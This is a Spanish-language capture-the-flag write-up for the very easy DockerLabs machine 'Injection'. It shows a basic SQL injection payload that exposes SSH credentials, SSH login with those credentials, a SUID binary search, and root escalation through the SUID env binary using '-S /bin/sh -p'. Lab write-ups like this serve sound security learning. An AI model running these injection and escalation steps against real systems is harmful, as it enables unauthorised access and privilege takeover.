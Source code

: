 # Write-up - Injection

**Dificultad:** Muy Fácil  
**Plataforma:** DockerLabs  
**Fecha:** 20/05/2025  
**Enseñanza:** Me permitió reforzar el análisis lógico y técnico para resolver la máquina de forma ordenada, identificando correctamente 
las fases de reconocimiento, explotación y escalada de privilegios.

---

## 1. Enumeración inicial

Se verifica la presencia de SQL Injection con una consulta básica:

`' or 1=1`

Esto devuelve un resultado con usuario y contraseña expuestos:

- Usuario: `Dylan`  
- Contraseña: `KJSDFG789FGSDF78`

---

## 2. Acceso SSH

Se accede por SSH utilizando las credenciales descubiertas:

`ssh -l Dylan <IP>`  
`Password: KJSDFG789FGSDF78`


---

## 3. Búsqueda de binarios con SUID

Se listan todos los archivos con el bit SUID activado:

`find / -perm -4000 -type f 2>/dev/null`


Resultado relevante:

`/usr/bin/env`


Se verifica si se ejecuta con permisos de root:

`ls -l /usr/bin/env`  
`-rwsr-xr-x 1 root root 43976 Jan 8 2024 /usr/bin/env `


---

## 4. Escalada de privilegios

Se intentan diferentes formas de ejecutar `/usr/bin/env`:

### Opción 1 (fallida):

`/usr/bin/env /bin/sh`


→ No otorga privilegios de root.

### Opción 2 (exitosa):

`/usr/bin/env -S /bin/sh -p`


Esto abre una shell como root.

---

## 5. Verificación

> whoami = root


---

## Conclusión

Máquina resuelta exitosamente mediante:

- SQL Injection básica  
- Acceso por SSH con credenciales expuestas  
- Escalada de privilegios mediante `env` con SUID y el flag `-p`

---
